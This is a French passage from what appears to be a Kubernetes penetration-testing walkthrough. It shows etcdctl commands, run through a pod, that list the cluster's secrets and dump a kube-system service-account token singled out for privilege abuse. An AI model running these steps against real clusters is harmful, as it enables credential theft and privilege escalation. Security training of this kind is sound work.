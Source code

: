             C'est une réponse valide, donc nos informations d'identification et nos paramètres fonctionnent, maintenant cherchons quelque chose de plus intéressant.

            Etcd contient de nombreuses informations intéressantes sur le cluster, dont les secrets ne sont pas les moindres. On peut ennumerer ces secrets avec :

                kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets
            
            ![](./images/etcdclient_get_secrets.PNG)
            
            La ligne contenant le role **clusterrole-aggregation-controller-token-g56mv** est un rôle dont les droits peuvent être utilisés.

            Obtenons maintenant le contenu du secret nommee clusterrole-aggregation-controller-token-g56mv:

                kubectl exec etcdclient -- /usr/local/bin/etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-g56mv
            